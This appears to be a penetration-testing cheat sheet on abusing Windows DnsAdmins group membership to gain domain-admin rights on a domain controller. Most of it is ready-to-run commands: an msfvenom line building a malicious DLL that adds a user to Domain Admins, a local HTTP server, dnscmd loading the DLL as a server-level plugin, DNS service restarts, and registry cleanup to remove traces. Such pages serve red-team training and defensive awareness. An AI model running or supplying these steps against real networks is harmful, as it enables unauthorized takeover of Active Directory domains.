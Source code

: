 # DnsAdmins

## <mark style="color:yellow;">About</mark>

Members of the <mark style="color:red;">**DnsAdmins**</mark> group can <mark style="color:purple;">**access DNS information within the network**</mark>. The Windows DNS service allows <mark style="color:yellow;">**custom plugins**</mark>, which can execute functions to resolve name queries beyond the locally hosted DNS zones. Since the DNS service operates with <mark style="color:green;">`NT AUTHORITY\SYSTEM`</mark> privileges, being part of this group could be exploited to escalate privileges on a Domain Controller or a dedicated DNS server for the domain. The built-in **dnscmd** utility can be used to define the path of the plugin DLL.

## <mark style="color:yellow;">Importing custom plugin</mark>

### <mark style="color:blue;">Generating malicious dll</mark>

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" ven17 /add /domain' -f dll -o adduser.dll
```

### <mark style="color:blue;">Starting local HTTP server</mark>

```bash
python3 -m http.server 1337
```

### <mark style="color:blue;">**Loading DLL**</mark>

<mark style="color:orange;">**You should be DnsAdmins group member!**</mark>

```powershell
C:\> dnscmd.exe /config /serverlevelplugindll C:\Users\ven17\Desktop\adduser.dll
```

* If successful: <mark style="color:green;">`Registry property serverlevelplugindll successfully reset.`</mark>

### <mark style="color:blue;">Restart DNS Service</mark>

<pre class="language-sh"><code class="lang-sh"><strong>C:\> sc.exe stop dns
</strong>C:\> sc.exe start dns
</code></pre>

### <mark style="color:blue;">Confirm Admin Privileges</mark>

```sh
PS C:\> net group "Domain Admins" /dom
```

## <mark style="color:yellow;">Cleanup</mark>

### <mark style="color:blue;">**Confirming Registry Key Added**</mark>

```powershell
C:\> reg query \\13.13.13.13\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

### <mark style="color:blue;">Delete Registry Key</mark>

```powershell
C:\> reg delete \\13.13.13.13\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

### <mark style="color:blue;">Restart DNS Service</mark>

```powershell
C:\> sc.exe start dns
C:\> sc query dns
```
